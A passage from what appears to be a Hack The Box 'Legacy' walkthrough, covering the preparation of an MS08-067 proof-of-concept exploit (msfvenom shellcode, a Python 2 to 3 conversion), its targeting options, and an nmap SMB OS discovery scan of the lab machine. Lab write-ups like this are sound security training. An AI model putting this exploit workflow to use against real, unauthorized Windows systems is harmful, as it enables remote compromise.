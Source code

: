 ### Some SC Generation Quirks
I did screw up and forget to pass the ```-v``` flag, allowing me to rename the buf variable to shellcode. So I reran ```msfvenom``` but I didn't take a new screenshot. 

### Converting from Python2 to Python3
After inserting the new shellcode, I *really* didn't feel like dealing with python2 dependencies, so I converted the python2 syntax of the POC to python3 with [2to3](https://docs.python.org/3/library/2to3.html).

```bash
┌──(nullprism㉿granite)-[~/htb/legacy/10.129.192.174/exploit]
└─$ 2to3 -w MS08-067.py
```

### Finalizing the Code
With the code patched the have relevant shellcode, and migrated from python2 to python3, it's ready to execute. If you are looking for my finalized exploit code for MS08-67, it is hosted on my github [here](https://github.com/nullprism/htb-boxes/tree/main/legacy).

### Executing the Exploit

Executing the script yields some help and targeting context:
```
Usage: MS08-067.py <target ip> <os #> <Port #>

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

FYI: nmap has a good OS discovery script that pairs well with this exploit:
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1
```

Based on the output, I'm pretty sure that script by nmap was run in our catch all earlier, but I'll double check.

```bash
┌──(nullprism㉿granite)-[~/htb/legacy/10.129.192.174/exploit]
└─$ nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.129.192.174 -Pn
```
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 21:14 CDT
Nmap scan report for 10.129.192.174
Host is up (0.053s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-08-09T07:12:11+03:00
```
